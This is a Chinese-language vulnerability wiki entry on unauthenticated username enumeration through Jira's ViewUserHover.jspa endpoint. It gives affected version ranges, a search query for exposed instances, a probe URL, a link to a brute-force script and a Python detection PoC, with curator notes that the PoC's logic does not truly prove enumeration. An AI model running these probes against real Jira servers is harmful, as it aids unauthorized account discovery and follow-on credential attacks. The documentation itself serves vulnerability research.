



# Jira ViewUserHover用户名枚举

## 条目说明

- 对象与具体问题：Jira；ViewUserHover用户名枚举
- 版本、配置及部署条件：三分支范围；metadata只首行
- 认证与权限前提：无Cookie示例
- 核验边界：已完成原始 Markdown 的文本审阅；未执行 PoC、未访问目标、未视检截图。来源所述影响与复现结果不等于本库独立验证。

## 证据边界与更正

以下记录原始资料的证据边界。可以由原文确定的产品、编号及格式问题已在本条修订；没有原始证据的版本、响应和补丁信息仍待核实。

- 脚本仅反射随机用户名便判漏洞，缺存在/不存在差异，不足证明枚举；footer提取无保护
- 外链脚本名2020-1481疑漏数字需核，不据文件名改主CVE
- 版本/修复来源缺，可从95互补；截图未视检

## 操作风险

现有材料未完整列明副作用；示例不保证只读或无状态变化。保留原示例供静态分析；仅可在明确授权的隔离测试环境验证，事先准备备份与回滚。

## 技术资料与来源记录

### 漏洞描述

Jira存在一个未授权访问漏洞，未授权的用户可以通过一个api接口直接查询到某用户名的存在情况，该接口不同于CVE-2019-8446和CVE-2019-3403的接口，是一个新的接口。如果Jira暴露在公网中，未授权用户就可以直接访问该接口爆破出潜在的用户名。

### 漏洞影响

```
Atlassian Jira < 7.13.6
Atlassian Jira 8.0.0 - 8.5.7
Atlassian Jira 8.6.0 - 8.12.0
```

### 网络测绘

```
app="Jira"
```

### 漏洞复现

打开主界面，注意标识中的 Jira版本是否在影响中




使用POC对用户名是否存在进行验证

```
/secure/ViewUserHover.jspa?username=admin
```

用户名如果不存在会返回




存在的用户名会返回


不存在漏洞会返回




### 漏洞POC

POC只用于探测是否存在漏洞

爆破可使用:  https://github.com/Rival420/CVE-2020-14181/blob/main/cve-2020-1481.py

```python
import requests
import sys
import random
import re
from requests.packages.urllib3.exceptions import InsecureRequestWarning

def title():
    print('+------------------------------------------')
    print('+  \033[34mPOC_Des: http://wiki.peiqi.tech                                   \033[0m')
    print('+  \033[34mGithub : https://github.com/PeiQi0                                 \033[0m')
    print('+  \033[34mVersion: Atlassian Jira < 7.13.6                                   \033[0m')
    print('+  \033[34mVersion: Atlassian Jira 8.0.0 - 8.5.7                              \033[0m')
    print('+  \033[34mVersion: Atlassian Jira 8.6.0 - 8.12.0                             \033[0m')
    print('+  \033[36m使用格式:  python3 poc.py                                            \033[0m')
    print('+  \033[36mUrl         >>> http://xxx.xxx.xxx.xxx                             \033[0m')
    print('+------------------------------------------')

def POC_1(target_url):
    vuln_url = target_url + "/secure/ViewUserHover.jspa?username=peiqipeiqipeiqi"
    headers = {
        "User-Agent": "Mozilla/5.0 (Windows NT 10.0; Win64; x64) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/86.0.4240.111 Safari/537.36",
    }
    try:
        requests.packages.urllib3.disable_warnings(InsecureRequestWarning)
        response = requests.get(url=vuln_url, headers=headers, verify=False, timeout=5)
        version = re.findall(r'<span id="footer-build-information">\((.*?)#', response.text)[0]
        print("\033[32m[o] 目标 Jira 版本为{} \033[0m".format(version))
        if "peiqipeiqipeiqi" in response.text:
            print("\033[32m[o] 目标{}存在漏洞 \033[0m".format(target_url))
        else:
            print("\033[31m[x] 目标不存在漏洞 \033[0m")
            sys.exit(0)
    except Exception as e:
        print("\033[31m[x] 请求失败 \033[0m", e)

if __name__ == '__main__':
    title()
    target_url = str(input("\033[35mPlease input Attack Url\nUrl >>> \033[0m"))
    POC_1(target_url)
```


---

> 来源：Threekiii/Vulnerability-Wiki（https://github.com/Threekiii/Vulnerability-Wiki）
